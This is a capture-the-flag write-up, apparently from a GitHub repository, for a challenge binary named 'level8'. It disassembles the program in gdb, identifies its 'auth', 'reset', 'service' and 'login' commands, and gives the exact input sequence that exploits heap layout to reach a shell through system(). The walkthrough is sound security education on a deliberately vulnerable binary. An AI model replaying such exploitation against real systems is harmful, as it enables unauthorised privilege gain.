 ## level8
In `level8` as opposed to the others the call to `system()` is inside the `main()` function, running the program will make it print *nil nil* and when we try to disassembly the program the disassembled code it's huge comparing to the others, so going through it with __gdb__ will show  some texts that we could think to be the inputs to pass to this program<br>
```
0x080485c1 <+93>:	mov    eax,0x8048819
(gdb) x/s 0x8048819
0x8048819:	 "auth "
```
Righ after this I was faced with some *assembly code* that looks very weird to me *(probably because I don't speack it very well)*
```
0x080485cf <+107>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
0x080485d1 <+109>:	seta   dl
0x080485d4 <+112>:	setb   al
```
After some search  I could find this [SO-POST](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741) that could clarify some parts and made me understand that it was comparing a string character by charater,<br> *why bother? why not just call `strcmp`?* maybe to try to make it more complicated ? and there are also a bunch of *flags* being set in this way of doing the comparasion.<br> The next string we will find in the dissableded code:
```
=> 0x08048642 <+222>:	lea    eax,[esp+0x20]
   0x08048646 <+226>:	mov    edx,eax
   0x08048648 <+228>:	mov    eax,0x804881f
   0x0804864d <+233>:	mov    ecx,0x5
   0x08048652 <+238>:	mov    esi,edx
   0x08048654 <+240>:	mov    edi,eax
   0x08048656 <+242>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:	seta   dl
   0x0804865b <+247>:	setb   al
   
(gdb) x/s 0x804881f
0x804881f:	 "reset"
```
And the next
```
   0x0804867e <+282>:	mov    eax,0x8048825
   0x08048683 <+287>:	mov    ecx,0x6
   0x08048688 <+292>:	mov    esi,edx
   0x0804868a <+294>:	mov    edi,eax
   0x0804868c <+296>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:	seta   dl
   0x08048691 <+301>:	setb   al
   
(gdb) x/s 0x8048825
0x8048825:	 "service"
```
And the last one
```
   0x080486bb <+343>:	mov    eax,0x804882d
   0x080486c0 <+348>:	mov    ecx,0x5
   0x080486c5 <+353>:	mov    esi,edx
   0x080486c7 <+355>:	mov    edi,eax
   0x080486c9 <+357>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:	seta   dl
   0x080486ce <+362>:	setb   al
   
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
To get the flag in this level you have to login as ``` `auth ` ``` the `' '` at the end of `auth` is important after this you will see the start __address__ where the string *`auth `* is put
```
./level8
(nil), (nil)
auth
0x804a008, (nil)
```
After this we have two options, we can either enter *service plus any number greater than 15 (memory alignment)
```
service AAAAAAAAAAAAAAA OR service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$
``` 
or we can enter
```
~$ ./level8
(nil), (nil)
`auth `
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$

```
